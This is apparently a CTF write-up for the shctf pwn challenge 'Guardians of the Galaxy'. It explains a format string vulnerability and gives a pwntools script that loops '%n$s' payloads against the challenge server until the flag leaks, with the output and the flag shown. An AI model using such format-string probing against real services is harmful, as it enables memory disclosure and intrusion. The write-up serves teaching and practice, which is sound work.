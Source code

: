 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
tags:
- ctf
- shctf
- pwn
description: "Writeup for the shctf pwn challenge [Guardians of the Galaxy]."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
---
```


## 📜 Description
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format?
`nc 0.cloud.chals.io 12690`
**Author**: GlitchArchetype

* [guardians](https://github.com/WhileSEC/shctf/blob/main/challenges/pwn/guardians-of-the-galaxy/files/guardians)

---

## 🔍 Detailed Solution
Let's look at what happens when you run that binary given to us.
```
$ ./guardians 
Error, please message admins with 'infinity_error'.
```
This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:
```
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```
There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python/pwntools script here to achieve this loop:
```py
from pwn import *

for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.readS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
```
As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:
```
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```